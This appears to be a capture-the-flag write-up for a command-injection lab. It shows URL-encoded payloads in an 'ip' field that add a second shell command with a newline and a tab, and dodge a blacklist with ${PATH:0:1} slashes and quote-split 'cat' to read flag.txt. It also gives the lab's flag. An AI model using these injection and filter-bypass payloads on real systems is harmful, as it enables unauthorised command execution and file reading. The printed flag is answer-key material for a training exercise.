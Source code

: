 ## Challenge

Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found. 

## Solution

If we use the following command:

```sh
ip=127.0.0.1%0a%09cat%09${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

which decoded is:

```sh
ip=127.0.0.1\n cat /home/1nj3c70r/flag.txt
```

and it gives `Invalid input`, so this means the command `cat` is blacklisted.

In this case I will add characters that will be ignored, such as an even number of quotes.

```sh
ip=127.0.0.1%0a%09c'a't%09${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
and the answer is `HTB{b451c_f1l73r5_w0n7_570p_m3}`.
